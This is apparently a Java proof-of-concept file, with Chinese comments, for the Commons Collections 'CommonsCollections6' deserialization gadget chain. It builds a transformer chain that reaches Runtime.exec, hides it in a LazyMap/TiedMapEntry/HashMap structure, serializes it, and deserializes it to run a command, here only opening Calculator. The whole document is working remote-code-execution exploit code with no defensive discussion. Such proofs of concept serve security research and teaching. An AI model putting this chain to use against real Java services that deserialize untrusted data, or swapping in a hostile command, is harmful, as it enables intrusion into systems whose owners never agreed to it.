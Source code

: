 ```java

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove("keyTest");
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```
